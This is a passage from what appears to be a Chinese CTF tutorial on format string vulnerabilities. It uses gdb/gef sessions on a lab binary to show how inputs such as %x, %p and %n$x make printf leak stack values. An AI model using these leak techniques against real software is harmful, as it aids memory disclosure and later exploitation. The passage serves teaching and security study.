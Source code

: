 ```shell
0xffffcd14│+0x18: ".%08x.%08x"
0xffffcd18│+0x1c: "x.%08x"
```

此时，由于格式化字符串为%x%x%x，所以，程序 会将栈上的0xffffcd04及其之后的数值分别作为第一，第二，第三个参数按照int型进行解析，分别输出。继续运行，我们可以得到如下结果去，确实和想象中的一样。

```shell
gef➤  c
Continuing.
ffffcd10.000000c2.f7e8b6bb[Inferior 1 (process 57077) exited normally]
```

当然，我们也可以使用%p来获取数据，如下

```python
%p.%p.%p
00000001.22222222.ffffffff.%p.%p.%p
0xfff328c0.0xc2.0xf75c46bb
```

这里需要注意的是，并不是每次得到的结果都一样 ，因为栈上的数据会因为每次分配的内存页不同而有所不同，这是因为栈是不对内存页做初始化的。

**需要注意的是，我们上面给出的方法，都是依次获得栈中的每个参数，我们有没有办法直接获取栈中被视为第n+1个参数的值呢**？肯定是可以的啦。方法如下

```text
%n$x
```

利用如下的字符串，我们就可以获取到对应的第n+1个参数的数值。为什么这里要说是对应第n+1个参数呢？这是因为格式化参数里面的n指的是该格式化字符串对应的第n个输出参数，那相对于输出函数来说，就是第n+1个参数了。

这里我们再次以gdb调试一下。

```shell
➜  leakmemory git:(master) ✗ gdb leakmemory
gef➤  b printf
Breakpoint 1 at 0x8048330
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
%3$x

Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
28	printf.c: 没有那个文件或目录.

─────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
─────────────────────────────────────────────────────[ stack ]────
['0xffffccec', 'l8']
8
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20	 ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  "%3$x"
0xffffcd04│+0x18: 0xffffcd10  →  "%3$x"
0xffffcd08│+0x1c: 0x000000c2
gef➤  c
Continuing.
00000001.22222222.ffffffff.%3$x

```